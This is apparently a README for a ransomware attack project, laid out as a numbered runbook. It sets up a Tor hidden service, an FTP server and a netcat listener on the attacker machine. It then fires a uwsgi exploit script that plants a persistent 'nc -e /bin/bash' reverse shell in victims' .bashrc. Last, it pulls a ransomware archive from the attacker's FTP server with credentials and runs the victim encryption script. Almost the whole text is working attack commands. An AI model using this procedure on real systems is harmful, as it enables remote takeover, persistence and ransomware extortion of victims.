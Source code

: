 
1.-Prepare the attacker system
	1.1.- modify /etc/tor/torrc file
		HiddenServiceDir /var/lib/tor/hidden_service/
		HiddenServicePort 80 127.0.0.1:8008
	1.2.- sudo service tor start
		  sudo service vsftpd start
	1.3.- Get TOR url
		cd /var/lib/tor/hidden_service
		cat hostname 
	1.5.- sqlitebrowser
	1.6.- nc -lvp 1234
	1.7.- sudo apt-get install vsftpd
	1.8.- python server.py
	
	
2.- Prepare the ransomware modifying the URL of TOR

3.- Prepare the servers in order to start the attacker
	3.1.- cd /home/it/project
	3.2.- ../uwsgi-2.0.20/uwsgi --puwsgi-socket localhost:8080 --wsgi-file foobar.py
	
	
4.- Start the attack"
	4.1.- Send exploit and reverse shell   
		python3 uwsgi_exp.py -u 10.0.2.17 -c "echo 'nc -e /bin/bash 10.0.2.15 1234 2>/dev/null &' >> ~/.bashrc"
		python3 uwsgi_exp.py -u 10.0.2.18 -c "nc -e /bin/bash 10.0.2.15 1234 2>/dev/null &"
		python3 uwsgi_exp.py -u 10.0.2.17 -c "gnome-terminal"
		python -c 'import pty; pty.spawn("/bin/bash")'
	

	4.2.- wget ftp://ruben:ruben@10.0.2.15/Documentos/RANS/MLW-ransomware.zip
		  unzip MLW-ransomware.zip
		  
	4.3.- /bin/bash Bash/bashVictim.sh
		  